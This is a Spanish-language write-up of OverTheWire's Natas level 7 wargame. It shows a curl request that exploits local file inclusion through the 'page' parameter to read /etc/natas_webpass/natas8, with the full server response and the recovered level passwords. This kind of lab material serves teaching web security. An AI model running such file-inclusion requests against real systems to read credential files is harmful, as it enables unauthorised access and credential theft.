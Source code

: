 # Natas 7

#### URL: http://natas7.natas.labs.overthewire.org/

#### Credenciales: natas7:bmg8SvU1LizuWjx3y7xkNERkHxGre0GS

Si vamos a /about podemos ver que la URL contiene el parametro file y nos dicen que la contraseña se encuentra en /etc/natas_webpass/natas8:

![2025-03-19-181008_886x35_scrot](https://github.com/user-attachments/assets/2b1fdee0-4750-42b3-9acd-5cebcba8dc84)

Existe un LFI o Local File Inclusion en esta web:

``` bash
> curl -u natas7:bmg8SvU1LizuWjx3y7xkNERkHxGre0GS http://natas7.natas.labs.overthewire.org/?page=/etc/natas_webpass/natas8
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas7", "pass": "bmg8SvU1LizuWjx3y7xkNERkHxGre0GS" };</script></head>
<body>
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>
xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
</body>
</html>
```

`natas8:xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q`
